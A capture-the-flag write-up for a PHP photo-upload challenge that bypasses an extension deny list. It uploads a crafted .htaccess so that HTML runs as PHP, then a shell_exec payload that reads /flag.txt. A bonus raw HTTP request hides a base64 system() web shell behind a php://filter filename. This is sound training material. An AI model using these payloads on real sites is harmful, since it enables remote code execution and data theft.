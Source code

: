# Byepass

> Help yourself Say Goodbye to days gone by with our easy online service! Upload your photos to capture the memory, cherish them with friends and family, and savor the time we have together!
> 
> Retrieve the flag out of the root of the filesystem /flag.txt.

We're given the source code and `Dockerfile` for the target. I thought it easiest to run this in a GCP CloudShell. 

Upload the source code, inspect:
```
paul@cloudshell:~/byepass ($PROJECT)$ find .
.
./php.ini
./www
./www/save_memories.php
./www/css
./www/css/styles.css
./www/assets
./www/assets/img
./www/assets/img/01.jpg
./www/assets/img/02.jpg
./www/assets/img/03.jpg
./www/index.php
./Dockerfile
```

Our `Dockerfile`:
```FROM php:7.2.12-apache

COPY www/ /var/www/html/
RUN mkdir -p /var/www/html/uploads

COPY php.ini /usr/local/etc/php/

#COPY flag.txt /
#RUN chmod a+r /flag.txt

RUN chown -R www-data:www-data /var/www/html/
EXPOSE 80
```

Simple enough. Lets build it and run it:

```
paul@cloudshell:~/byepass ($PROJECT)$ docker build .
Sending build context to Docker daemon  1.637MB
Step 1/6 : FROM php:7.2.12-apache
7.2.12-apache: Pulling from library/php
a5a6f2f73cd8: Pull complete
633e0d1cd2a3: Pull complete
<SNIP>
Successfully built 529705f83df0
paul@cloudshell:~/byepass ($PROJECT)$ docker run -it --rm -p 8080:80 529705f83df0
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.18.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.18.0.2. Set the 'ServerName' directive globally to suppress this message
[Sat Dec 17 22:35:14.800857 2022] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.2.12 configured -- resuming normal operations
[Sat Dec 17 22:35:14.800969 2022] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'

  ```
  
Inspecting the PHP code for the uploader function:
```
<?php
error_reporting(E_ALL);
ini_set('display_errors',1);

$target_dir = "/var/www/html/uploads/";
$uploadOk = 1;

$ext_denylist = array(
    "php",
    "php2",
    "php3",
    "php4",
    "php5",
    "php6",
    "php7",
    "phps",
    "phps",
    "pht",
    "phtm",
    "phtml",
    "pgif",
    "shtml",
    "phar",
    "inc",
    "hphp",
    "ctp",
);

if(isset($_POST["submit"])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $filename = $_FILES["fileToUpload"]["name"];
    $uploadOk = 1;
    if ($filename== ""){
        echo("<br><br><br><br><h1>ERROR:</h1> No file was supplied.");
        $uploadOk = 0;
    }

    $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
    if ( in_array($ext, $ext_denylist)) {
        echo('<br><br><br><br><h1>ERROR:</h1> Not a valid image to upload');
        $uploadOk = 0;
    }

    if ($_FILES["fileToUpload"]["size"] > 500000) {
      echo("<br><br><br><br><h1>ERROR:</h1> This file is too large for us to store!");
      $uploadOk = 0;
    }

    if ($uploadOk){

        $moved = move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
        if ($moved){
            echo("<br><br><br><br><h1>SUCCESS:</h1> Your memory has been saved, you can view your photographs here: <a href='$filename'>/uploads/$filename</a>.");
        } else {
            echo("<br><br><br><br><h1>ERROR:</h1> Sorry, there was an error uploading your file '$filename'.<br><br>");
            echo($_FILES['fileToUpload']['error']);
            var_dump($_FILES);
        }
    }
}

?>
```

Try to upload a HTML file with a basic phpinfo() function. 

Pretty sure this won't work, but lets confirm that, and see if the file is uploaded:
`Your memory has been saved, you can view your photographs here: /uploads/badguy.html.`

Grabbing it:

```
paul@cloudshell:~ ($PROJECT)$ curl -X GET -H 'HOST: <SNIP>.cloudshell.dev' --cookie "CloudShellAuthorization=Bearer <token>" https://$WEB_HOST/badguy.html
<?php
phpinfo()
?>paul@cloudshell:~ ($PROJECT)$

```
As expected, PHP code was not interpreted, but we can confirm the file was saved in web root:

```
  root@28047d82b635:/var/www/html# cat badguy.html
<?php
phpinfo()
```

As the files are uploaded to webroot, I had an idea of uploading a bad `.htaccess` file. 

See additional resources: https://stackoverflow.com/questions/44512947/how-to-use-php7-code-in-html-file-with-the-help-of-htaccess-setting, https://github.com/wireghoul/htshells

Lets upload our `.htaccess` with below contents, so HTML is interpreted for PHP:
```
<Files ~ "^\.ht">
# Require all granted
    Order allow,deny
    Allow from all
</Files>
Options +ExecCGI
AddType application/x-httpd-php .php .html
AddHandler application/x-httpd-php .php .html
```

Lets upload another bad file so we can get our flag:
```
<?php
$output = shell_exec('ls -lart / && cat /flag.txt');
echo "<pre>$output</pre>";
shell_exec('cp /flag.txt /var/www/html/');

?>
 ```
  
  Now run it:
  ```
  paul@cloudshell:~ ($PROJECT)$ curl -X GET -H 'HOST: <SNIP>.cloudshell.dev' --cookie "CloudShellAuthorization=Bearer <SNIP>" https://$WEB_HOST/badguy3.html
<pre>total 80
drwxr-xr-x   2 root root 4096 Oct 20  2018 home
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   1 root root 4096 Nov 12  2018 usr
drwxr-xr-x   2 root root 4096 Nov 12  2018 srv
```

We're golden! No flag is appearing, as just running this in the sandbox. But if run against target in real CTF, it would yield the correct flag.

## Bonus
For a much more sophisticated solve for this, check below:

```POST / HTTP/1.1
Host: challenge.nahamcon.com:32044
Content-Type: multipart/form-data; boundary=---------------------------292197394829431258241452346033
Content-Length: 543
Origin: null
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------292197394829431258241452346033
Content-Disposition: form-data; name="file"; filename="%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%64%65%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%78%79%7a%2e%6a%70%67%2e%70%68%70"
Content-Type: text/xml

PD9waHAgc3lzdGVtKCRfR0VUWyJqa3IiXSk7ICAgPz4K
-----------------------------292197394829431258241452346033
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------292197394829431258241452346033--```



> urlencode a php filter that base64-decodes. This will get rid of the <?php exit();
> And have your own payload as base64 (that will get decoded into a system())

Hat tip to https://twitter.com/ateamjkr

Also reference: https://www.youtube.com/watch?v=ifjMdERchF4
